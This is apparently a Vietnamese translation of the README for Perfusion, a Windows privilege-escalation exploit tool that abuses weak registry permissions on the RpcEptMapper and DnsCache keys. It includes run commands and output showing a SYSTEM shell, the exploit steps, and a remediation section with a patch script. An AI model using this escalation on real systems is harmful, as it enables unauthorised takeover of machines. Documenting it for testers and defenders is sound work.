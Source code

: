 ```yaml
---
title: Perfusion
date: 12/11/2021
layout: single
header:
  teaser: https://anomali.cdn.rackfoundry.net/images/made/images/uploads/blog/ogThe-Power-of-an-Exploit_1200_603.jpg
---
```


# Mô tả
Tác giả: itm4n

Mã Nguồn: [itm4n/Perfusion](https://github.com/itm4n/Perfusion) 

> Trong __Windows 7__, __Windows Server 2008R2__, __Windows 8__, và __Windows Server 2012__, khóa đăng ký của dịch vụ `RpcEptMapper` và` DnsCache` (chỉ dành cho 7 / 2008R2) được định cấu hình với quyền yếu. Bất kỳ người dùng cục bộ nào cũng có thể tạo khóa con `Performance` và sau đó tận dụng ___Windows Performance Counters___ để tải một DLL tùy ý trong ngữ cảnh của dịch vụ WMI là` NT AUTHORITY \ SYSTEM` (do đó có tên là công cụ).

>  Công cụ này nhằm giúp các nhà tư vấn bảo mật trong quá trình kiểm tra thâm nhập. Phần mềm này được cung cấp nguyên trạng và tác giả có thể sẽ không cung cấp bất kỳ hỗ trợ nào. Mặc dù vậy, tôi đã thử nghiệm nó kỹ lưỡng trên ba máy ảo khác nhau nên không có vấn đề gì đáng kể.

Một bài phân tích chi tiết về nó: [windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/Perfusion/master/demo.gif">
</p>

## Nguồn thông tin: 2021-04-21 Cập nhật

> Theo [0patch](https://twitter.com/0patch/status/1384495698373120002), lỗ hổng này đã được sửa một phần với Bản cập nhật Windows tháng 4 năm 2021 (ESU). Điều này có nghĩa là các máy chạy phiên bản cập nhật của Windows 8 / Server 2012 sẽ không thể khai thác được nữa. Tuy nhiên, Windows 7 / Server 2008 R2 vẫn dễ bị tấn công. Bạn chỉ cần sử dụng khóa đăng ký `Dnscache` hơn là `RpcEptMapper`. Tôi đã cập nhật PoC để bạn có thể chỉ định thủ công bằng tùy chọn `-k`.

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Đây là những gì bạn sẽ thấy khi khai thác không thành công

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

Giải pháp này bao gồm hai dự án cần được biên dịch theo một thứ tự cụ thể. Mọi thứ đều được định cấu hình trước, vì vậy bạn chỉ cần làm theo các hướng dẫn đơn giản sau

1. Mở Giải pháp với Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

Bạn có thể kiểm tra thông báo trợ giúp bằng cách sử dụng tùy chọn `-h`.

```powershell
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.2
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -k <KEY>  Key - Either 'RpcEptMapper' or 'Dnscache' (default: 'RpcEptMapper')
  -h        Help - That's me :)
```

## Remediation / Patch

Các phiên bản Windows sau dễ bị tấn công:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

> Theo những gì tôi được biết, lỗ hổng này sẽ không được Microsoft sửa chữa vì một số lý do. Giải pháp tốt nhất vẫn là nâng cấp lên Windows 10 / Server 2019 nhưng nếu đó không phải là lựa chọn ngắn hạn, bạn vẫn có thể tự vá sự cố này bằng cách xóa quyền `CreateSubKey` cho cả `NT AUTHORITY\Authenticated Users` và `BUILTIN\Users` trên các khóa đăng ký sau:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

> Tác giả đã tạo bản vá cho lỗ hổng bảo mật này dưới dạng tập lệnh PowerShell: [RegistryPatch.ps1] (RegistryPatch.ps1). Tập lệnh này loại bỏ `CreateSubKey` ngay trên hai khóa đăng ký nêu trên cho các danh tính sau:` NT AUTHORITY \ INTERACTIVE`, `BUILTIN \ Users` và / hoặc` BUILTIN \ Authenticated Users`

- __Kiểm tra xem máy có dễ bị tổn thương không:__ (Windows Server 2012 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Áp dụng các bản vá:__ (Windows Server 2008 R2 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```

## How does this exploit work?

Dưới đây là các bước khai thác được thực hiện trong công cụ này:

1. Tiến trình được tạo ở chế độ nền ở trạng thái treo (sử dụng dòng lệnh được chỉ định).
2. DLL trọng tải nhúng được ghi vào thư mục `Temp` của người dùng hiện tại.
3. Khóa `Performance` được tạo trong` HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` và được điền các giá trị thích hợp, bao gồm cả đường dẫn đầy đủ của DLL đã được tạo ở bước 2.
4. Lớp WMI `Win32_Perf` được tạo và gọi để kích hoạt bộ sưu tập _Windows Performance Counters_.
5. DLL được tải bởi dịch vụ WMI dưới dạng `NT AUTHORITY\SYSTEM` hoặc` NT AUTHORITY\LOCAL SERVICE`.
6. Nếu DLL được tải bởi `NT AUTHORITY\SYSTEM`, Mã thông báo của nó sẽ được sao chép và được áp dụng cho Quy trình do người dùng tạo ban đầu ở bước 1.
7. Mọi thứ được dọn dẹp và Chủ đề chính của Quy trình bị treo được tiếp tục.
